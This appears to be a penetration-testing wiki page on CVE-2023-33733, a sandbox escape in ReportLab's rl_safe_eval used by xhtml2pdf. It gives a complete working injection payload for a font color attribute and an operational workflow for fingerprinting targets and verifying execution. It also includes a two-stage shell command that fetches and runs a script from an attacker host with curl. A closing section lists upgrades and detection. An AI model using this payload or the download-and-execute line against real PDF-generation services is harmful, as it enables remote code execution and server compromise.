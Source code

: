 # ReportLab/xhtml2pdf [[[...]]] expression-evaluation RCE (CVE-2023-33733)


This page documents a practical sandbox escape and RCE primitive in ReportLab’s rl_safe_eval used by xhtml2pdf and other PDF-generation pipelines when rendering user-controlled HTML into PDFs.

CVE-2023-33733 affects ReportLab versions up to and including 3.6.12. In certain attribute contexts (for example color), values wrapped in triple brackets [[[ ... ]]] are evaluated server-side by rl_safe_eval. By crafting a payload that pivots from a whitelisted builtin (pow) to its Python function globals, an attacker can reach the os module and execute commands.

Key points
- Trigger: inject [[[ ... ]]] into evaluated attributes such as <font color="..."> within markup parsed by ReportLab/xhtml2pdf.
- Sandbox: rl_safe_eval replaces dangerous builtins but evaluated functions still expose __globals__.
- Bypass: craft a transient class Word to bypass rl_safe_eval name checks and access the string "__globals__" while avoiding blocked dunder filtering.
- RCE: getattr(pow, Word("__globals__"))["os"].system("<cmd>")
- Stability: Return a valid value for the attribute after execution (for color, use and 'red').

When to test
- Applications that expose HTML-to-PDF export (profiles, invoices, reports) and show xhtml2pdf/ReportLab in PDF metadata or HTTP response comments.
  - exiftool profile.pdf | egrep 'Producer|Title|Creator' → "xhtml2pdf" producer
  - HTTP response for PDF often starts with a ReportLab generator comment

How the sandbox bypass works
- rl_safe_eval removes or replaces many builtins (getattr, type, pow, ...) and applies name filtering to deny attributes starting with __ or in a denylist.
- However, safe functions live in a globals dictionary accessible as func.__globals__.
- Use type(type(1)) to recover the real builtin type function (bypassing ReportLab’s wrapper), then define a Word class derived from str with mutated comparison behavior so that:
  - .startswith('__') → always False (bypass name startswith('__') check)
  - .__eq__ returns False only at first comparison (bypass denylist membership checks) and True afterwards (so Python getattr works)
  - .__hash__ equals hash(str(self))
- With this, getattr(pow, Word('__globals__')) returns the globals dict of the wrapped pow function, which includes an imported os module. Then: ['os'].system('<cmd>').

Minimal exploitation pattern (attribute example)
Place payload inside an evaluated attribute and ensure it returns a valid attribute value via boolean and 'red'.

<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('ping 10.10.10.10') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
  exploit
</font></para>

- The list-comprehension form allows a single expression acceptable to rl_safe_eval.
- The trailing and 'red' returns a valid CSS color so the rendering doesn’t break.
- Replace the command as needed; use ping to validate execution with tcpdump.

Operational workflow
1) Identify PDF generator
   - PDF Producer shows xhtml2pdf; HTTP response contains ReportLab comment.
2) Find an input reflected into the PDF (e.g., profile bio/description) and trigger an export.
3) Verify execution with low-noise ICMP
   - Run: sudo tcpdump -ni <iface> icmp
   - Payload: ... system('ping <your_ip>') ...
   - Windows often sends exactly four echo requests by default.
4) Establish a shell
   - For Windows, a reliable two-stage approach avoids quoting/encoding issues:
     - Stage 1 (download):

exploit

     - Stage 2 (execute):

exploit

   - For Linux targets, similar two-stage with curl/wget is possible:
     - system('curl http://ATTACKER/s.sh -o /tmp/s; sh /tmp/s')

Notes and tips
- Attribute contexts: color is a known evaluated attribute; other attributes in ReportLab markup may also evaluate expressions. If one location is sanitized, try others rendered into the PDF flow (different fields, table styles, etc.).
- Quoting: Keep commands compact. Two-stage downloads drastically reduce quoting and escaping headaches.
- Reliability: If exports are cached or queued, slightly vary the payload (e.g., random path or query) to avoid hitting caches.

Mitigations and detection
- Upgrade ReportLab to 3.6.13 or later (CVE-2023-33733 fixed). Track security advisories in distro packages as well.
- Do not feed user-controlled HTML/markup directly into xhtml2pdf/ReportLab without strict sanitization. Remove/deny [[[...]]] evaluation constructs and vendor-specific tags when input is untrusted.
- Consider disabling or wrapping rl_safe_eval usage entirely for untrusted inputs.
- Monitor for suspicious outbound connections during PDF generation (e.g., ICMP/HTTP from app servers when exporting documents).

References
- PoC and technical analysis: [[https://github.com/c53elyas/CVE-2023-33733|c53elyas/CVE-2023-33733]]
- 0xdf University HTB write-up (real-world exploitation, Windows two-stage payloads): [[https://0xdf.gitlab.io/2025/08/09/htb-university.html|HTB: University]]
- NVD entry (affected versions): [[https://nvd.nist.gov/vuln/detail/cve-2023-33733|CVE-2023-33733]]
- xhtml2pdf docs (markup/page concepts): [[https://xhtml2pdf.readthedocs.io/en/latest/format_html.html|xhtml2pdf docs]]

